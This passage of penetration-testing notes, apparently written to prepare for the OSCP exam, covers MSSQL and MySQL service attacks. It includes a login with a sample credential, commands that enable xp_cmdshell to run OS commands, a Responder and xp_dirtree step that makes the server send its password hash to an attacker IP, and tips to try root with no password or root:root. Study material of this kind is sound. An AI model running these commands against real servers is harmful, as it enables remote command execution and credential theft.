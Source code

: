    ```
   sqsh -U oscp.exam\\sql_svc -P 'Dolphin1' -S 10.10.122.148:1433
   ```

2. Enable XP Command Shell Option if not enabled

   ```shell
   EXEC sp_configure 'show advanced options', 1;
   EXEC sp_configure 'xp_cmdshell', 1;
   RECONFIGURE;
   go
   xp_cmdshell 'whoami';
   go
   ```

   

3. Execute Commands

   ```mssql
   1> xp_cmdshell 'whoami';
   2> go
   ```




Windows

```
sqlcmd -Q "cmdline query"

sudo responder -I tun0
sqlcmd -Q "xp_dirtree '\\10.10.14.2\test'"
	#  get a password hash - can't bruteforce
```



#### Port 3306 (MySQL / Maria DB)

https://gabb4r.gitbook.io/oscp-notes/service-enumeration/mysql-port-3306

```
mysql -u [username] -p[password] -h [hostname] -P [port] [database]

mysql --host=127.0.0.1 --port=13306 --user=wp -p
```

- Local Access

  ```
  mysql -u root 
  # Connect to root without password
  
  mysql -u root -p 
  # A password will be asked
  
  # Always test root:root credential
  ```

  